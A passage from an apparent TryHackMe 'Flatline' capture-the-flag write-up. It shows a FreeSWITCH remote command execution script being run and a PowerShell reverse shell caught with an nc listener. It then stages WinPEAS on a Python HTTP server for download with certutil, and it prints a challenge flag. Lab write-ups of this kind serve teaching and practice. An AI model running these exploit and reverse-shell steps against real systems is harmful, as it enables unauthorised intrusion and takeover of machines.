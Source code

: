 Time to run our python script and see if we can execute a reverse shell to get commandline access on the machine.

First, we can see a POC that shows us command execution and that the service is running under the account “nekrotic”.

```python
┌──(kali㉿kali)-[~/tryhackme/flatline]
└─$ python3 freeswitch_rce.py $IP whoami
Authenticated
Content-Type: api/response
Content-Length: 25

win-eom4pk0578n\nekrotic
```

### Reverse Shell

Using the awesome tool [gimmeSH.sh](https://github.com/A3h1nt/gimmeSH) by **A3h1nt**, we can quickly generate a powershell reverse shell and execute it on the remote host.

{{< figure src="/flatline/gimmesh.png" title="gimmeSH.sh shell generator" >}}

```bash
┌──(kali㉿kali)-[~/tryhackme/flatline]
└─$ python3 freeswitch_rce.py $IP "$(cat powershell_rev.ps1)"                     
Authenticated

┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.14.6.6] from (UNKNOWN) [10.10.104.26] 49846
whoami
win-eom4pk0578n\nekrotic
PS C:\Program Files\FreeSWITCH>
```

As we can see, we now have an interactive shell session. Time to find the first flag.

```powershell
PS C:\users\Nekrotic\Desktop> type user.txt
THM{64bca0843d535fa73eecdc59d27cbe26}
PS C:\users\Nekrotic\Desktop>
```

# Privilege Escalation

We could do some quick enumeration of the host with WinPEAS (Windows Privilege Escalation Awesome Script).

First, we need to host it with a Python simple HTTP server. Then download our Winpeas binary with certutil from our running PS console session

```bash
┌──(kali㉿kali)-[~/winpeas]
└─$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 ([http://0.0.0.0:8888/](http://0.0.0.0:8888/)) ...
127.0.0.1 - - [28/Aug/2022 09:08:41] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [28/Aug/2022 09:08:41] code 404, message File not found
127.0.0.1 - - [28/Aug/2022 09:08:41] "GET /favicon.ico HTTP/1.1" 404 -
127.0.0.1 - - [28/Aug/2022 09:11:00] "GET / HTTP/1.1" 200 -
```
